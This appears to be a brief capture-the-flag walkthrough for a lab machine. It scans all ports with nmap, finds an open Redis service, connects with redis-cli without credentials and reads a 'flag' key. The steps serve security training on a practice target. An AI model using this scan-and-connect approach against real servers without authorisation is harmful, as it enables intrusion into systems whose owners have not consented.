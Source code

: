 1. **Scan all the ports (0-65535) and determine service and version of open ports**
```bash
nmap -p- -sV [ip machine]
```
--> port 6379/tcp - open - redis


2. **Get into the redis server**
```bash
redis-cli -h [ip machine]
```
--> **MACHINE PWNED!**


3. **Move inside the machine and Capture the flag** 
```shell
[ip machine:6379]> info
	# Keyspace
	db0:keys=4,expires=0,avg_ttl=0

[ip machine:6379]> keys*
	1) "numb" / 2) "stor" / 3) "flag" / 4) "temp"

[ip machine:6379]> get flag
```
--> Transfer completed!